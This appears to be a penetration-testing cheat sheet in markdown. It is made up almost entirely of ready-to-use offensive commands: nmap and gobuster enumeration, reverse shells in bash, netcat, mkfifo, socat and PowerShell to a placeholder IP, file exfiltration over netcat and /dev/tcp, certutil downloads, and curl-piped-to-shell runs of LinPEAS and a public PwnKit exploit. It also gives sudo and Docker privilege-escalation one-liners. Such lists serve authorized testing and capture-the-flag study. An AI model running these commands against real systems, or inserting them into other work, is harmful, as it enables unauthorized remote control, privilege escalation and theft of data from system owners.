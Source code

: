 # CHEATSHEET
  
  
## NETWORK ENUMERATION

### HOST DISCOVERY
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```

### TCP OPEN PORTS
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```

### INFO & VERSION
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```

### HTTP ENUMERATION
Enumerate common directories and files with nmap
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```
Gobuster
```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```



## REVERSE SHELLS

### BASH
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

### NETCAT
```bash
nc -e /bin/bash <IP> <PORT>
```

### MKFIFO
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

### SOCAT
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### POWERSHELL
```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### INTERACTIVE TTY
```bash
script /dev/null -c bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```



## SHARE AND DOWNLOAD

### HTTP SERVER
```bash
# Python3
python3 -m http.server <PORT>

# Python2
python -m SimpleHTTPServer <PORT>

# PHP
php -S 0.0.0.0:<PORT>
```

### SMB 
```bash
smbserver.py <NAME> $(pwd) -smb2support
```

### FILE TRANSFER ( NETCAT - BASH ) 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```

### DOWNLOAD 
#### Powershell
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```

####Cmd
```shell
certutil -urlcache -split -f <URL> <PATH>
```

#### Bash
```bash
wget "http://<IP>/"
```



## SYSTEM ENUMERATION

### Enviroment Variables
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```

### Find SUID on GUID files
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```

### Check capabilities
```bash
getcap -r / 2>/dev/null
```

### Open local ports
```bash
ss -nltp
```

### Cron Jobs
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

### Monitoring processes
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

### Scripts with write permissions
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```

### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



## PRIVILEGE ESCALATION

### Sudo
```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```

### Polkit - (CVE-2021-4034)
```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```

### Docker
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

